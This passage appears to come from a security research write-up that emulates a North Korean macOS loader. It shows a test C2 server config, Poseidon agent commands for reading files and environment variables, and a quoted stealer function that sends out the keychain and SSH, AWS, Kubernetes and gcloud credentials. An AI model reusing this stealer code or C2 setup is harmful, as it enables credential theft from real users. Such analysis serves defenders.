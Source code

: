 ![Mythic C2 Payload Builder](/assets/images/bit-bybit/image9.png)

We then base64-encoded the binary and were able to hardcode the path to that base64-encoded payload in our C2 server to be served when testing this specific loader command.

```shell
base64 poseidon.dylib > poseidon.b64
```

```py
BINARY_PAYLOAD_B64 = "BASE64_ENCODED_DYLIB_PAYLOAD"  # For ret==1
STEALER_PAYLOAD_B64 = "BASE64_ENCODED_STEALER_SCRIPT" # For ret==2
MULTI_STAGE_PAYLOAD_B64 = "BASE64_ENCODED_MULTISTAGE_PAYLOAD" # For ret==3
# For testing we simulate a command to send.
# Options: 0, 1, 2, 3, 9.
# 0: Idle (sleep); 1: Execute native binary; 2: Execute Python code; 3: Execute multi-stage payload; 9: Terminate.
COMMAND_TO_SEND = 1   # Change this value to test different actions
```

Once we received our Poseidon payload callback to our [Mythic C2](https://github.com/its-a-feature/Mythic) we were able to retrieve credentials using a variety of different methods provided by Poseidon. 

Option 1: [download command](https://github.com/MythicAgents/poseidon/blob/master/documentation-payload/poseidon/commands/download.md) \- Access file, reads content, sends data back to C2.  
Option 2: [getenv command](https://github.com/MythicAgents/poseidon/blob/master/documentation-payload/poseidon/commands/getenv.md) \- Read user environment variables and send content back to C2.  
Option 3: [jsimport](https://github.com/MythicAgents/poseidon/blob/master/Payload_Type/poseidon/poseidon/agentfunctions/jsimport.go) & [jsimport\_call](https://github.com/MythicAgents/poseidon/blob/master/Payload_Type/poseidon/poseidon/agentfunctions/jsimport_call.go) commands \- Import JXA script into memory then call a method within the JXA script to retrieve credentials from file and return contents.

#####  Ret == 2: Receive and Execute arbitrary Python code within Process Memory 

(VT Hash: `e89bf606fbed8f68127934758726bbb5e68e751427f3bcad3ddf883cb2b50fc7`)

The loader script allows for the running of arbitrary Python code or scripts, in memory. In Unit42’s blog they provided a Python script they observed the DPRK executing via this return value. This script collects a vast amount of data. This data is XOR encoded and sent back to the C2 server via a POST request. For the emulation all that was needed was to add our C2 URL with the appropriate route as defined in our C2 server and base64 encode the script hardcoding its path within our server for when this option was tested.

```py
def get_info():
    global id
    id = base64.b64encode(os.urandom(16)).decode('utf-8')
    
    # get xor key
    while True:
        if not get_key():
            break

        base_info()
        send_directory('home/all', '', home_dir)
        send_file('keychain', os.path.join(home_dir, 'Library', 'Keychains', 'login.keychain-db'))
        send_directory('home/ssh', 'ssh', os.path.join(home_dir, '.ssh'), True)
        send_directory('home/aws', 'aws', os.path.join(home_dir, '.aws'), True)
        send_directory('home/kube', 'kube', os.path.join(home_dir, '.kube'), True)
        send_directory('home/gcloud', 'gcloud', os.path.join(home_dir, '.config', 'gcloud'), True)
        finalize()
        break
```
